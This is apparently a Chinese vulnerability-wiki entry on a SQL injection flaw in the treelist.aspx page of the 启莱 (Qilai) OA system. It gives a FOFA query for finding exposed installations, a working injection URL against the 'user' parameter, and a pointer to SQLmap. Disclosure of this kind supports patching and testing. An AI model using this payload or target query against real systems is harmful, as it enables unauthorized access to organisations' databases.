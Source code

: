 # 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ql-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

存在SQL注入的文件为 treelist.aspx

```
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![](http://wikioss.peiqi.tech/vuln/ql-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

使用SQLmap对参数 user 进行注入

![](http://wikioss.peiqi.tech/vuln/ql-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)